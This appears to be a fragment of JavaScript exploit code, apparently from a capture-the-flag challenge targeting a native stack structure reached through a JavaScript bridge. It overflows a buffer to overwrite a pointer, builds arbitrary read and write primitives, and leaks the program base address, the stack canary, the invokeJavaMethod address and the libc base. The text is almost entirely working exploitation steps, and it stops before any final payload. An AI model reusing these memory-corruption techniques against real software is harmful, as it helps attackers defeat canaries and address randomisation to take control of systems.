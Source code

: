 ```javascript
        return parseInt(data.match(/../g).reverse().join(''), 16);
    }

    function pack64(data) {
        return data.toString(16).match(/../g).reverse().join('').padEnd(16, '0');
    }

    function read(addr) {
        // push something because we pop after
        push("41")
        // 16*"41" + pointer overwrite
        modify("41414141414141414141414141414141"+pack64(addr));
        pop();
        return top();
    }

    function write(addr, data) {
        // push something because we pop after
        push("41")
        // 16*"41" + pointer overwrite
        modify("41414141414141414141414141414141"+pack64(addr));
        pop();
        modify(data)
    }

    // initialize the stack top
    push("41414141")
    push("41414141")
    push("41414141")

    // leak base address
    // base address is located in the stack at offset 8 but is itself offseted by 0x16FF
    modify("4141414141414141");
    // skip 16 first bytes (4141...)
    leak = top().substring(16);
    base_addr = unpack64(leak) - 0x16FF;
    console.log("Base address : "+base_addr.toString(16));

    // leak canary
    // canary is at the end of the 40 bytes buffer
    modify("41414141414141414141414141414141414141414141414141414141414141414141414141424242");
    // skip 40 first bytes (4141...)
    leak = top().substring(80);
    // javascript gives incorrect results if we parse the canary as an Int
    canary = leak.substring(0, 16);
    console.log("Canary : "+canary);

    // compute invokeJavaMethod address
    invoke_addr = base_addr + 0xFA0;
    console.log("invokeJavaMethod address : "+invoke_addr.toString(16));

    // leak malloc address
    malloc = unpack64(read(base_addr + 0x2F70))
    // compute libc base
    libc_base = malloc - 0x43410
    console.log("Libc base address : "+libc_base.toString(16));

    // add stuff on the stack otherwise things randomly break afterwards
    push("41414141")
    push("41414141")
    push("41414142")


```